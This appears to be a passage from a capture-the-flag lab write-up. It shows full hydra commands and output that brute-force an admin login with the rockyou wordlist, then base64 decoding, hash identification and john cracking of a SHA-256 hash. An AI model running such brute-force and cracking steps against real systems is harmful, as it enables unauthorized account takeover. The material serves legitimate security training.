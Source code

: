 Trying all images with `steghide` returns nothing (except a troll link to a music video), so lets bruteforce the admin page with `hydra` using the usernames found above:
```
$ hydra  -P ../wordlists/rockyou.txt 192.168.1.4 http-post-form '/admin/index.php:username=^USER^&pass=^PASS^:Login Failed' -t 64 -l Zipperman
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-01 13:07:48
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking http-post-form://192.168.1.4:80/admin/index.php:username=^USER^&pass=^PASS^:Login Failed
[STATUS] 16153.00 tries/min, 16153 tries in 00:01h, 14328246 to do in 14:48h, 64 active
[STATUS] 16938.00 tries/min, 50814 tries in 00:03h, 14293585 to do in 14:04h, 64 active
[STATUS] 17244.71 tries/min, 120713 tries in 00:07h, 14223686 to do in 13:45h, 64 active
[STATUS] 17286.93 tries/min, 259304 tries in 00:15h, 14085095 to do in 13:35h, 64 active
[STATUS] 17301.68 tries/min, 536352 tries in 00:31h, 13808047 to do in 13:19h, 64 active
[STATUS] 17299.34 tries/min, 813069 tries in 00:47h, 13531330 to do in 13:03h, 64 active
[80][http-post-form] host: 192.168.1.4   login: Zipperman   password: Password@123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-01 14:08:11
```
After an hour or so, we get a password for Zipperman. This could be our way in.

> Remember to configure `hydra` we need to inspect a failed login request first.

Logging in with the new creds, we find a base64 string alogn some preate neat pirate flags! Lets decode it:
```
$ echo "ODBlNDEzMDQwNzFjYmY1ODU2NTM2ZTM5MGYzYzc3ZjQ0NWE0OGVjMDE3NzQwNzdiOGM2ODNlMzA5YzUzMTMyOQ==" | base64 -d
80e41304071cbf5856536e390f3c77f445a48ec01774077b8c683e309c531329
```

Analyzing the output with `hashid` gives us some probable matches:
```
$ hashid 80e41304071cbf5856536e390f3c77f445a48ec01774077b8c683e309c531329
Analyzing '80e41304071cbf5856536e390f3c77f445a48ec01774077b8c683e309c531329'
[+] Snefru-256 
[+] SHA-256 
[+] RIPEMD-256 
[+] Haval-256 
[+] GOST R 34.11-94 
[+] GOST CryptoPro S-Box 
[+] SHA3-256 
[+] Skein-256 
[+] Skein-512(256) 
```

Lets use `john` to crack this possible `sha-256` hash:
```
$ echo "80e41304071cbf5856536e390f3c77f445a48ec01774077b8c683e309c531329" > hashToCrack.txt
$ ../john/run/john --format=raw-sha256 hashToCrack.txt --wordlist=../wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=8
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
1Password1*      (?)
1g 0:00:00:00 DONE (2020-10-01 17:21) 1.020g/s 13374Kp/s 13374Kc/s 13374KC/s 1wrm2cda..191087r
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed. 
```
